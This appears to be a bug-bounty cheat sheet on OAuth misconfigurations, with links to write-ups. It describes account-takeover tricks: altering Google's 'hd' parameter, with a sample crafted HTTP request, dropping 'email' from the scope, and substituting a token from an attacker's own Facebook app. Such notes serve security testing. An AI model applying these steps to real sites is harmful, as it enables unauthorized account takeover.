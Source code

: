 # OAUTH Misconfigurations

### Brute Force to Get Legacy OR Unimplemented OAuth Flows

{% embed url="https://twitter.com/intigriti/status/1173566272468135939" %}

### Modify `hd=` parameter

In OAuth Connect With Google , Try To Modify hd Parameter From company.com To gmail.com To Be Able To Connect With Your Email

[https://twitter.com/intigriti/status/1383397368691789825](https://twitter.com/intigriti/status/1383397368691789825)

{% embed url="https://twitter.com/m4ll0k/status/1319783718249238535" %}

```http
GET /oauth/Connect?response_type=code&client_id=ID&scope=openid%20email&redirect_uri=https://company.com&nonce=Randim&hd=gmail.com HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Accept-Encoding: gzip, deflate
```

### Remove `email`  from `scope`

Try To Remove Your Email From Scope Parameter While Signing Up OR Signing In With Services Provider To Get Account Takeover

{% embed url="https://akshanshjaiswal.medium.com/pre-access-to-victims-account-via-facebook-signup-60219e9e381d" %}

{% embed url="https://twitter.com/intigriti/status/1158383750490800128" %}

### Use Access Token Of Your App Instead Of Auth Token Of Victim App

```go
1 - Create Facebook App
2 - Generate Access Token
3 - Go To Victim App And Click On The Facebook Sign In
 Button With Intercepting Traffic Using Burp Suite
4 - Change Value Of auth_token Parameter To
 The Access Token
5 - Forward The Request And You Will Be Login Since
 There Is No Validation Weather The Access Token
 Generated For Victim App OR Other App
```

{% embed url="https://ankitthku.medium.com/account-takeover-via-common-misconfiguration-in-facebook-login-a2ac8b479b3" %}
